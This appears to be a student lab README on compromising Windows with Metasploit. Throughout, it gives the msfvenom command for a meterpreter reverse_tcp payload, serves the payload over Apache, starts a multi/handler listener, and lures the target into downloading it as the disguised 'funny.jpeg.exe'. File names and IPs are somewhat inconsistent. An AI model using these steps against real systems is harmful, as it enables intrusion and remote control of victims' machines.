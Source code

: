 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
## PROGRAM:

Find the attackers ip address using ifconfig
## OUTPUT:
![ex6-1](https://github.com/user-attachments/assets/db010076-b807-43d7-b089-7a48a5c7c28d)

Create a malicious executable file fun.exe using msfvenom command
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
copy the fun.exe into the apache /var/www/html folder
Start apache server
sudo systemctl apache2 start


## OUTPUT
![ex6-2](https://github.com/user-attachments/assets/8460517a-2884-432b-89cb-8961af21d1a6)

Invoke msfconsole:
## OUTPUT:


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

![ex6-3](https://github.com/user-attachments/assets/51ba3a25-e1f4-4db1-8aa4-2d14e45e9483)

Starting a command and control Server
use multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 0.0.0.0
exploit

![ex6-4](https://github.com/user-attachments/assets/05aab480-a6c4-4f94-81b4-8c266fbc6c4d)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine:
http://192.168.149.243/funny.jpeg.exe
The file "fun.exe" downloads. 

![Screenshot 2025-04-22 154310](https://github.com/user-attachments/assets/69f9a0f2-9a31-413c-b5eb-877281c6d826)




## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
